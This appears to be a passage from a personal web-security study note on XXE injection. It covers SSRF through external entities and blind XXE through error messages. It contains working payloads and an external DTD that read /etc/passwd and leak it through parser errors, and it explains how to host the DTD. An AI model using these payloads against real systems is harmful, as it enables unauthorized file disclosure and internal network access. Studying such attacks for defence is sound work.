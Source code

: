 ```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal.vulnerable-website.com" > ]>
```
- Causes the backend to make [[HTTP]] request to the given URL within the internal system.
- And then call it somewhere using `&ext;` to view the response of the HTTP request.

---
### Blind XXE

Happens when the application is vulnerable to XXE injection but doesn't return any values within the application response.

##### 1. Error Messages

Triggering error messages can be used to detect these vulnerabilities. 
- We can try changing the XML code such that it is syntactically incorrect, which may produce an error message.

Error messages can also be customized to return the required files in the response.
- An example of such a payload in an external DTD.
```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
```

> Creating the dynamic parameter entity `error` uses `&#x25;` instead of `%`, the [[Web Encoding]] version.

1.  Create an [[XML]] parameter entity called `file` that contains the contents of the file `/etc/passwd`.
2.  Create an [[XML]] parameter entity called `eval`. In it is another parameter entity called `error`.
3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.

This only works in external DTDs. Will not work in a normal `DOCTYPE` internal DTD.
- This is because having a parameter entity within the definition of another parameter entity is not tolerated by parsers.

> For it to work, we need to reference the external DTD, and use parameter entities for it to work.

- The DTD:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
```

- The payload to be placed in the application.
```XMl
<!DOCTYPE foo [ 
	<!ENTITY % ext SYSTEM "URL" > 
	%ext;
	%eval;
]>
```
- Where `URL` is the location of the external DTD containing the payload.
- Can be done by running a python server and hosting the DTD file like in the CDATA section above to read files.
